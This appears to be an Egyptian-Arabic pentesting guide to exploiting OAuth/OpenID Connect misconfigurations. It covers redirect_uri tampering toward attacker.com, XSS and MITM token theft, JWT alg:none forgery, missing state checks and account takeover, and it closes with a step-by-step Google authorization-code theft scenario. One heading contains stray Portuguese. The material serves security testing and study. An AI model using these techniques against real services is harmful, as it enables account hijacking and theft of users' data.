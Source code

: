 ## هام جدا 
- السيناريوهات اللي بقولهالك هي فكره ممكن تحصل لكن مش شرط تعمل نفس الخطوات الموجوده يعني مثلا يمكن استخدم نفس التوكين ل email تاني مش شرط تعمل نفس الخطوات اللي مديهالك  لكن ممكن تدور علي طريقه تعمل السيناريو ده 



---

### **المحاولات الممكنة لاستغلال OAuth/OpenID Connect Misconfigurations**
هنا هعدّلك كل الطرق اللي ممكن تستخدمها كمهاجم (أو كمحترف أمني بتختبر النظام) لاستغلال الثغرات دي. الطرق دي مقسمة حسب نوع الثغرة:

#### **1. Redirect URI Manipulation**
- **الوصف**: OAuth بيستخدم Redirect URI عشان يرجّع الـ Authorization Code أو Access Token للتطبيق. لو الـ Redirect URI مش مقيّد كويس، المهاجم ممكن يغيّره لموقع يتحكم فيه.
- **المحاولات**:
  - **تجربة تغيير الـ Redirect URI**: غيّر الـ `redirect_uri` في طلب OAuth لموقع خبيث (مثل `attacker.com`)، وشوف لو الخدمة بتقبل الطلب وترجّع الـ Code أو Token.
  - **استخدام نطاقات مفتوحة**: جرب تضيف نطاقات فرعية (مثل `sub.victim.com`) أو نطاقات مشابهة لو الخدمة بتسمح بـ Wildcards (مثل `*.victim.com`).
  - **تسريب الـ Code عبر Query Parameters**: لو الـ Redirect URI بيحط الـ Code في URL، جرب تستخدم موقع خبيث يسجّل الـ Code لما يتحوّل.
- **مثال عملي**: لو الـ Redirect URI هو `https://victim.com/callback`، جرب تحوّله لـ `https://attacker.com` أو `https://victim.com.attacker.com`.

#### **2. Authorization Code Theft**
- **الوصف**: الـ Authorization Code بيترجّع للـ Client بعد ما المستخدم يوافق على الوصول. لو المهاجم قدر يسرق الـ Code، يقدر يستبدله بـ Access Token.
- **المحاولات**:
  - **اعتراض الـ Code عبر MITM**: لو الاتصال مش مشفّر (HTTP بدل HTTPS)، استخدم هجوم Man-in-the-Middle عشان تسرق الـ Code من الـ Redirect.
  - **استغلال XSS**: لو فيه ثغرة XSS في صفحة الـ Redirect، حقن JavaScript عشان تسجّل الـ Code من الـ URL.
  - **تسريب عبر Referer Header**: لو الـ Code بيترجّع في Query Parameter وبتنقل لموقع تالت، الـ Referer Header ممكن يسرّب الـ Code.
- **مثال عملي**: لو الـ URL هي `https://victim.com/callback?code=XYZ123`， استخدم XSS عشان ترسل الـ Code لسيرفرك.

#### **3. Access Token Theft**
- **الوصف**: الـ Access Token هو المفتاح اللي بيسمح بالوصول للموارد. لو المهاجم سرقه، يقدر يوصل لبيانات المستخدم.
- **المحاولات**:
  - **تسريب الـ Token عبر Client-Side**: لو الـ Token بيتخزّن في Local Storage أو Cookies وفيه XSS، استخدم JavaScript عشان تسرقه.
  - **استغلال Implicit Grant Flow**: في الـ Implicit Flow، الـ Token بيترجّع مباشرة في الـ URL Fragment (`#access_token=XYZ`). جرب تسجّل الـ Fragment بـ XSS أو تسريب عبر Referer.
  - **اعتراض الـ Token في الشبكة**: لو الـ Token بيترجّع عبر HTTP، استخدم أدوات زي Wireshark عشان تعترضه.
- **مثال عملي**: لو الـ Token في `https://victim.com/#access_token=ABC123`， استخدم XSS عشان تسحب الـ Token من الـ URL.

#### **4. Client ID/Secret Exposure**
- **الوصف**: كل تطبيق OAuth بياخد Client ID وClient Secret. لو الـ Secret اتسرّب (مثلاً في كود JavaScript أو GitHub)، المهاجم يقدر ينتحل شخصية التطبيق.
- **المحاولات**:
  - **البحث عن Client Secret في الكود**: افحص كود الـ Front-End (JavaScript) أو الـ Repositories (مثل GitHub) عشان تلاقي Client ID/Secret مكشوفين.
  - **محاكاة التطبيق**: لو لقيت الـ Secret، استخدمه عشان تطلب Access Token من الـ Authorization Server مباشرة.
  - **استغلال ضعف التحقق**: بعض الخدمات مش بتتحقق من الـ Client Secret كويس، فجرب تستخدم Client ID لوحده.
- **مثال عملي**: لو لقيت `client_id=123&client_secret=XYZ` في ملف JS، استخدمهم في طلب POST لـ `/token` endpoint.

#### **5. Weak Scope Validation**
- **الوصف**: الـ Scope بيحدد إيه الصلاحيات اللي التطبيق يقدر يوصلها. لو الخدمة مش بتتحقق من الـ Scope كويس، المهاجم يقدر يطلب صلاحيات زيادة.
- **المحاولات**:
  - **طلب Scope زيادة**: في طلب OAuth، جرب تضيف Scopes زي `profile`, `email`, أو `admin` وشوف لو الخدمة هتقبل.
  - **تعديل الـ Scope في الطلب**: لو الـ Scope بيترجّع في الـ Authorization Code، جرب تغيّره قبل ما تستبدله بـ Token.
  - **استغلال Scopes مفتوحة**: بعض الخدمات بتسمح بـ Scopes غير محددة (مثل `*`)، فجرب تستغلها.
- **مثال عملي**: بدل `scope=profile`, جرب `scope=profile,email,admin` في طلب OAuth.

#### **6. Insecure Token Storage**
- **الوصف**: لو الـ Tokens (Access أو Refresh) بتتخزّن في أماكن غير آمنة (زي Local Storage أو Cookies بدون HttpOnly)، المهاجم يقدر يسرقها.
- **المحاولات**:
  - **استغلال XSS لسرقة الـ Token**: استخدم XSS عشان تسحب الـ Token من Local Storage (`localStorage.getItem('token')`).
  - **استغلال Cookies غير آمنة**: لو الـ Token في Cookie بدون `HttpOnly` أو `Secure`، استخدم XSS أو MITM عشان تسرقه.
  - **تسريب عبر Client-Side Logs**: جرب تبحث عن الـ Token في Logs الـ Client-Side لو النظام بيسجّل بيانات حساسة.
- **مثال عملي**: لو الـ Token في `localStorage`, حقن `<script>alert(localStorage.getItem('token'))</script>` عشان تسرقه.

#### **7. Token Replay Attacks**
- **الوصف**: لو الـ Token مش ليه آلية حماية (مثل Nonce أو Expiry قصير)، المهاجم يقدر يستخدمه أكتر من مرة.
- **المحاولات**:
  - **إعادة استخدام الـ Token**: لو سرقت Access Token، جرب تستخدمه في API Calls تانية قبل ما ينتهي.
  - **استغلال Refresh Token**: لو الـ Refresh Token مش مقيّد، استخدمه عشان تولّد Access Tokens جديدة.
  - **تجاهل الـ Nonce**: لو OpenID Connect مش بيتحقق من الـ Nonce، جرب تعيد استخدام الـ ID Token.
- **مثال عملي**: لو الـ Token صالح لمدة طويلة، استخدمه في طلبات API زي `GET /user/profile`.

#### **8. Insufficient Token Validation**
- **الوصف**: لو الـ Authorization Server أو التطبيق مش بيتحقق من الـ Token كويس (مثل توقيع JWT أو Issuer)، المهاجم يقدر يزوّر Token.
- **المحاولات**:
  - **تزوير JWT**: لو الـ JWT بيستخدم `alg:none` أو Secret ضعيف، زوّر الـ Token باستخدام موقع زي `jwt.io`.
  - **تغيير الـ Issuer**: لو الخدمة مش بتتحقق من `iss` (Issuer)، جرب تستخدم Token من خدمة تانية.
  - **تعديل الـ Audience**: غيّر الـ `aud` في الـ JWT عشان تخلي الخدمة تقبله.
- **مثال عملي**: لو الـ JWT هو `header.payload.signature`, غيّر الـ `alg` لـ `none` وشوف لو الخدمة بتقبل.

#### **9. CSRF in OAuth Flow**
- **الوصف**: لو الـ OAuth Flow مش محمي بـ State Parameter، المهاجم يقدر يخلّي المستخدم يبدأ جلسة باستخدام Code أو Token خبيث.
- **المحاولات**:
  - **إجبار المستخدم على طلب OAuth**: أرسل رابط خبيث يبدأ OAuth Flow ويستخدم `state` مزوّر.
  - **تجاهل الـ State Parameter**: لو الخدمة مش بتتحقق من الـ `state`, جرب تستخدم Code من جلسة تانية.
  - **استغلال CSRF مع XSS**: لو فيه XSS، استخدمها عشان تبدأ OAuth Flow بدون علم المستخدم.
- **مثال عملي**: أرسل رابط زي `https://victim.com/oauth?client_id=123&redirect_uri=attacker.com` بدون `state`.

#### **10 crescimento de conta (Account Takeover)**
- **الوصف**: لو المهاجم قدر يربط حسابه بحساب المستخدم عن طريق ثغرة في OAuth، يقدر يتحكم في الحساب.
- **المحاولات**:
  - **استغلال الـ Pre-Authorized Code**: لو الخدمة بترجّع Code مُعاد استخدامه، جرب تستخدمه عشان تربط حسابك.
  - **تجاوز التحقق من البريد**: لو الخدمة بتربط الحسابات بناءً على Email بدون تحقق، جرب تستخدم حساب مشابه.
  - **استغلال ضعف الـ Consent Screen**: لو شاشة الموافقة مش واضحة، خدّع المستخدم عشان يوافق على وصول غير مرغوب.
- **مثال عملي**: لو الخدمة بتربط حساب Google بحساب المستخدم بناءً على Email، جرب تسجّل بنفس الـ Email على سيرفر خبيث.

---

### **مثال عملي لسيناريو هجوم**
- **السيناريو**: موقع بيستخدم OAuth لتسجيل الدخول عبر Google. الـ `redirect_uri` مش مقيّد، والـ `state` Parameter مش موجود.
- **الخطوات**:
  1. ابعت رابط خبيث للمستخدم: `https://accounts.google.com/o/oauth2/auth?client_id=123&redirect_uri=https://attacker.com&scope=profile`.
  2. لما المستخدم يوافق، Google هترجّع Authorization Code لـ `attacker.com`.
  3. استخدم الـ Code عشان تطلب Access Token من `/token` endpoint.
  4. استخدم الـ Token عشان توصل لبيانات المستخدم (مثل الـ Email أو Profile).

---

### **الخلاصة**
استغلال **OAuth/OpenID Connect Misconfigurations** بيعتمد على فهمك لتدفق البروتوكول (Authorization Code Flow، Implicit Flow، إلخ) وإزاي النظام بيطبّقه. أهم الثغرات هي الـ Redirect URI المفتوح، سرقة الـ Code/Token، وضعف التحقق من الـ Scope أو Token. لو بتختبر، ركز على الـ Parameters زي `redirect_uri`, `state`, و`scope`, وجرب دايمًا تعبث بالـ JWT لو موجود.

لو عايز تفصيل أكتر عن أي طريقة أو مثال عملي على أداة معينة (زي Burp Suite)، قولي!